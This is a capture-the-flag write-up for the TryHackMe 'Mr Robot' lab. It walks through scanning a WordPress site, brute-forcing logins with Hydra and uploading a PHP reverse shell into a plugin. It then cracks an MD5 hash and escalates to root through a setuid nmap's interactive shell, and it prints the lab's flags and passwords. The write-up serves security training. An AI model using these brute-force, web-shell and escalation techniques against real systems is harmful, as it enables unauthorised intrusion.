


#Tomcat #JSP #Penetration-Tester-Level-1 #LXD #Web #Vulnerability-Assessment #Common-Applications #Authentication #Reconnaissance #Password-Cracking #Privilege-Abuse #Local-File-Inclusion #Misconfiguration

https://tryhackme.com/room/mrrobot

Add `10.10.17.96 mrrobot.thm` to `/etc/hosts`

# Information Gathering

- Nmap
```bash
┌──(root㉿kali)-[~]
└─# nmap -sV -sC -Pn -T4 -p- mrrobot.thm -oA mr_robot
Nmap scan report for mrrobot.thm (10.10.17.96)
Host is up (0.00046s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 02:80:8E:EC:3A:09 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 632.28 seconds
```

- Gobuster
```bash
──(root㉿kali)-[~]
└─# gobuster dir -u mrrobot.thm -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -e -o gobuster.txt

http://mrrobot.thm/images               (Status: 301) [Size: 234] [--> http://mrrobot.thm/images/]
http://mrrobot.thm/blog                 (Status: 301) [Size: 232] [--> http://mrrobot.thm/blog/]
http://mrrobot.thm/rss                  (Status: 301) [Size: 0] [--> http://mrrobot.thm/feed/]
http://mrrobot.thm/sitemap              (Status: 200) [Size: 0]
http://mrrobot.thm/login                (Status: 302) [Size: 0] [--> http://mrrobot.thm/wp-login.php]
http://mrrobot.thm/0                    (Status: 301) [Size: 0] [--> http://mrrobot.thm/0/]
http://mrrobot.thm/feed                 (Status: 301) [Size: 0] [--> http://mrrobot.thm/feed/]
http://mrrobot.thm/video                (Status: 301) [Size: 233] [--> http://mrrobot.thm/video/]
http://mrrobot.thm/image                (Status: 301) [Size: 0] [--> http://mrrobot.thm/image/]
http://mrrobot.thm/atom                 (Status: 301) [Size: 0] [--> http://mrrobot.thm/feed/atom/]
http://mrrobot.thm/wp-content           (Status: 301) [Size: 238] [--> http://mrrobot.thm/wp-content/]
http://mrrobot.thm/admin                (Status: 301) [Size: 233] [--> http://mrrobot.thm/admin/]
http://mrrobot.thm/audio                (Status: 301) [Size: 233] [--> http://mrrobot.thm/audio/]
http://mrrobot.thm/intro                (Status: 200) [Size: 516314]
http://mrrobot.thm/wp-login             (Status: 200) [Size: 2599]
http://mrrobot.thm/css                  (Status: 301) [Size: 231] [--> http://mrrobot.thm/css/]
http://mrrobot.thm/rss2                 (Status: 301) [Size: 0] [--> http://mrrobot.thm/feed/]
http://mrrobot.thm/license              (Status: 200) [Size: 309]
http://mrrobot.thm/wp-includes          (Status: 301) [Size: 239] [--> http://mrrobot.thm/wp-includes/]
http://mrrobot.thm/js                   (Status: 301) [Size: 230] [--> http://mrrobot.thm/js/]
http://mrrobot.thm/Image                (Status: 301) [Size: 0] [--> http://mrrobot.thm/Image/]
http://mrrobot.thm/rdf                  (Status: 301) [Size: 0] [--> http://mrrobot.thm/feed/rdf/]
http://mrrobot.thm/page1                (Status: 301) [Size: 0] [--> http://mrrobot.thm/]
http://mrrobot.thm/readme               (Status: 200) [Size: 64]
http://mrrobot.thm/robots               (Status: 200) [Size: 41]
http://mrrobot.thm/dashboard            (Status: 302) [Size: 0] [--> http://mrrobot.thm/wp-admin/]
http://mrrobot.thm/%20                  (Status: 301) [Size: 0] [--> http://mrrobot.thm/]
http://mrrobot.thm/wp-admin             (Status: 301) [Size: 236] [--> http://mrrobot.thm/wp-admin/]
http://mrrobot.thm/phpmyadmin           (Status: 403) [Size: 94]
http://mrrobot.thm/0000                 (Status: 301) [Size: 0] [--> http://mrrobot.thm/0000/]

```

- Wpscan (Based on `wp-login` discovered in dir)
```bash
┌──(root㉿kali)-[~]
└─# wpscan --url http://mrrobot.thm -t 10
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://mrrobot.thm/ [10.10.17.96]
[+] Started: Sat Dec 31 05:17:42 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://mrrobot.thm/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://mrrobot.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] The external WP-Cron seems to be enabled: http://mrrobot.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://mrrobot.thm/81a33a7.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://mrrobot.thm/81a33a7.html, Match: 'WordPress 4.3.1'

[+] WordPress theme in use: twentyfifteen
 | Location: http://mrrobot.thm/wp-content/themes/twentyfifteen/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://mrrobot.thm/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.3
 | Style URL: http://mrrobot.thm/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://mrrobot.thm/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:22 <===================================================================================================================> (137 / 137) 100.00% Time: 00:00:22

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Dec 31 05:19:27 2022
[+] Requests Done: 170
[+] Cached Requests: 9
[+] Data Sent: 42.285 KB
[+] Data Received: 264.029 KB
[+] Memory used: 239.832 MB
[+] Elapsed time: 00:01:44
```

# Key 1

After visiting `http://mrrobot.thm/robots/`

```css
User-agent: *
fsocity.dic
key-1-of-3.txt
```

- Found Key 1 : 
```bash
┌──(root㉿kali)-[~]
└─# curl http://mrrobot.thm/key-1-of-3.txt   
073403c8a58a1f80d943455fb30724b9
```

- Download their dictionary file 
```bash
wget http://mrrobot.thm/fsociety.dic
```

# Key 2

- Searchsploit
```bash
──(root㉿kali)-[~]
└─# searchsploit wordpress 4.3
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Core < 4.7.1 - Username Enumeration                                                                                                                   | php/webapps/41497.php
WordPress Core < 4.7.4 - Unauthorized Password Reset                                                                                                            | linux/webapps/41963.txt
WordPress Core < 4.9.6 - (Authenticated) Arbitrary File Deletion                                                                                                | php/webapps/44949.txt
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                                                         | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                                                                                         | php/dos/47800.py
...
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

## User Enumeration

Use `fsociety.dic` to bruetforce user names

### Methods

- Burp Suite

> Found User `Elliot`

- Hydra
```bash
┌──(root㉿kali)-[~]
└─# hydra -L fsocity.dic -p "w" mrrobot.thm http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username" -t 20 -vV
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-31 06:07:28
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 20 tasks per 1 server, overall 20 tasks, 858235 login tries (l:858235/p:1), ~42912 tries per task
[DATA] attacking http-post-form://mrrobot.thm:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target mrrobot.thm - login "true" - pass "w" - 1 of 858235 [child 0] (0/0)
[ATTEMPT] target mrrobot.thm - login "false" - pass "w" - 2 of 858235 [child 1] (0/0)
[ATTEMPT] target mrrobot.thm - login "wikia" - pass "w" - 3 of 858235 [child 2] (0/0)
...
[80][http-post-form] host: mrrobot.thm   login: Elliot   password: w
```

- Wpscan (For Skids)

## Password Bruteforce

Found User Password : `Elliot:ER28-0652`
- Hydra
```bash
hydra -l Elliot -P reversed_fsocity.dic mrrobot.thm http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=is incorrect" -t 30 -vV

[ATTEMPT] target mrrobot.thm - login "Elliot" - pass "plugin" - 67 of 858235 [child 12] (0/0)
[ATTEMPT] target mrrobot.thm - login "Elliot" - pass "vulnerabilities" - 68 of 858235 [child 15] (0/0)
[80][http-post-form] host: mrrobot.thm   login: Elliot   password: ER28-0652
[STATUS] attack finished for mrrobot.thm (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-31 06:18:54
```

> Tip: Use `tac fsocity.dic | tee reversed_fsocity.dic` to bruteforce faster

## Reverse Shell

### Upload Shell



```bash
locate webshell
cat php-reverse-shell.php|xclip -selection c
```

- Wordpress plugins dir is `/wp-content/plugins/`
```bash
curl http://mrrobot.thm/wp-content/plugins/hello.php
```

### Listener

```bash
pwncat-cs -lp 1111 -m linux

(remote) daemon@linux:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
(remote) daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

- Crack the hash
```bash
┌──(root㉿kali)-[~]
└─# hashcat password.raw-md5 /opt/rockyou.txt -m 0
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Sat Dec 31 07:07:34 2022 (0 secs)
Time.Estimated...: Sat Dec 31 07:07:34 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/opt/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   565.2 kH/s (0.15ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 40960/14344383 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 38400/14344383 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: johnny7 -> loool
Hardware.Mon.#1..: Util: 18%
```

Got Password for `robot` : `abcdefghijklmnopqrstuvwxyz`

- Login To `Robot`
```bash
(remote) daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959
```

Get Key 2 : `822c73956184f694993bede3eb39f959`

# Key 3

## Escalate To Root

https://github.com/diego-treitos/linux-smart-enumeration

- Those 3 files have suid
```bash
============================================================( file system )=====
[*] fst000 Writable files outside user's home.............................. yes!
[*] fst010 Binaries with setuid bit........................................ yes!
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/usr/local/bin/nmap
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper

```

- Enter nmap interactive mode
```bash
robot@linux:/tmp$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
waiting to reap child : No child processes
nmap> !sh
\u@\h:\w$ whoami
root
\u@\h:\w$ cd /root
\u@\h:\w$ cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
\u@\h:\w$ 
```

Get key 3 : `04787ddef27c3dee1ee161b21670b4e4`